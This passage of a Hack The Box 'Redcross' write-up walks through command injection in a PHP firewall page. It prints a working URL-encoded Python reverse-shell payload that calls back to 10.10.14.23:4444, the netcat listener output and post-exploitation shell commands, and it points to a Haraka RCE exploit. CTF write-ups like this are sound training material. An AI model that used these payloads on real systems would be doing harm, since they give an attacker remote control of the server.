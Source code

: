 The file contains the program code that is called by the firewall management application on the admin page:

![](/assets/images/htb-writeup-redcross/firewall_control.png)

Whenever we add/delete an IP from the firewall ACL's, the PHP code does a system() call to run the `iptctl` application and make changes to the firewall rules. If we add a semi-colon in the `id` parameter we are able to inject commands and gain code execution.

Example payload like the following: `ip=1;id&action=deny`

```
Usage: /opt/iptctl/iptctl allow|restrict|show IP
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Since we now have RCE, we can use a standard python reverse shell command to get shell on the system.

Payload: `ip=1;python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.23",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b'&action=deny`

And we get a shell!

```console
root@ragingunicorn:~/hackthebox/Machines/Redcross# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.113] 51712
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
redcross
```

```console
www-data@redcross:/home/penelope$ ls -l 
ls -l 
total 8
drwxrwx--- 6 penelope mailadm  4096 Jun  7 17:59 haraka
-rw-r----- 1 root     penelope   33 Jun  7 18:18 user.txt
www-data@redcross:/home/penelope$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

We still can't read `user.txt` since it's owned by `penelope`... Gotta try harder I guess.

### Priv esc to penelope

Penelope's home directory contains the `haraka` directory. Haraka is an SMTP email server written in Node.js and contains at least one vulnerability according to Exploit-DB:

```
-----------------------------------------
Haraka < 2.8.9 - Remote Command Execution
/linux/remote/41162.py
-----------------------------------------
Shellcodes: No Result
```
